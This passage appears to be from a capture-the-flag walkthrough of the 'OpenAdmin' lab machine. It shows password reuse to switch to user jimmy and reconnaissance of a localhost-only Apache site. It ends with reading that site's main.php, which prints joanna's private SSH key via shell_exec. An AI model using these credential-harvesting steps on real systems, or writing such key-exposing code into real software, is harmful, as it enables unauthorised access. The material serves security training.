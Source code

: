 Let's try it with `joanna` and then with `jimmy`

```bash
www-data@openadmin:/opt/ona/www$ su joanna 
Password: n1nj4W4rri0R!
su: Authentication failure
www-data@openadmin:/opt/ona/www$ su jimmy 
Password: n1nj4W4rri0R!
jimmy@openadmin:/opt/ona/www$ 
```

Got it, doing some recon we find that port `52846` is running.

```bash
jimmy@openadmin:/opt/ona/www$ ss -nltp
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         128               127.0.0.1:52846            0.0.0.0:*       
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*       
LISTEN   0         128                       *:80                     *:*       
LISTEN   0         128                    [::]:22                  [::]:*       
```

```bash
jimmy@openadmin:/opt/ona/www$ ls /etc/apache2/sites-enabled/
internal.conf  openadmin.conf

jimmy@openadmin:/opt/ona/www$ cat /etc/apache2/sites-enabled/internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

And looking for another site in Apache, we find out that there is another one called `internal.conf`.

```
jimmy@openadmin:/var/www/internal$ ls
index.php  logout.php  main.php
```

Looking inside there is something interesting.

```
jimmy@openadmin:/var/www/internal$ cat main.php 
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
